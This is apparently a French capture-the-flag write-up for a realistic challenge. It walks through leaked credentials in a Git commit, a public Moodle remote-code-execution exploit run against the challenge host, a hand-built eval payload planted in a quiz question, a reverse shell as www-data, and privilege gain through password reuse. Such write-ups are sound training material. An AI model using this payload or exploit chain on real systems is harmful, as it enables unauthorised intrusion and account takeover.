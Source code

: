 # Route Moi - Mel
## Présentation

Le but de ce challenge est d'obtenir un shell sur la machine en tant qu'utilisateur Mel.

**Catégorie :** Réaliste  
**Points :** 400

## Résolution

Le challenge débute sur un serveur web avec Moodle installé dessus.
Il y a un cours qui ne nous apprend pas grand chose, si ce n'est l'existance [d'un github](https://github.com/melTHEboss/php_exploit) appartenant à l'auteur.

En se rendant dessus, il y a un répo `php_exploit` avec un commit "OOOOOOPS wrong commit".  
En regardant le diff, on retrouve un fichier `config.php.bak` qui contient les identifiants Moodle ainsi que les infos de la bdd.  
On peut donc maintenant se connecter en tant que `meltheboss` sur le Moodle.

Après quelques rapides recherches, on se rend compte qu'il existe un exploit RCE pour cette version spécifique de moodle (https://www.exploit-db.com/exploits/46551).

La faille réside dans la fonction "question dynamique" qui peut être exploitée jusqu'à un `eval()` de code.

```
➜  php 46551.php url=http://217.160.15.230:36471 user=meltheboss pass=[Je l'ai plus] ip=x.x.x.x port=4242 course=2
```

Toute les étapes se passent bien, jusqu'à la dernière `[*] Adding Evil Question` qui ne fonctionne pas.
À ce moment là, deux possibilités : on corrige l'exploit ou on termine à la main.

On va donc terminer l'exploitation à la mano à l'aide de [cet article de blog](https://blog.ripstech.com/2018/moodle-remote-code-execution). Il nous suffit d'utiliser les éléments déjà créés par notre exploit, et d'y ajouter manuellement la fameuse question piégée avec le payload ``/*{a*/`$_GET[0]`;//{x}}``.

On est maintenant en mesure d'exécuter du code par le paramètre GET 0. On en profite pour se créer un reverse shell, et nous voila connecté en tant qu'utilisatuer `www-data`.

On doit maintenant réussir à se connecter en tant que `meltheboss`.  
Nos droits étant limités, on compte sur une réutilisation de mot de passe.

On dispose toujours des identifiants mysql récupérés sur le git. C'est le moment de voir si on peut en tirer quelque chose.  
Et en effet, il y a une base mysql "wordpress" avec une table "wp_users" dans laquelle se trouve un utilisateur `meltheboss` ainsi que son mot de passe en base64 (`P4ssw0rd0fm3l!!`).

Le flag se trouve dans `/home/meltheboss/flag.txt`.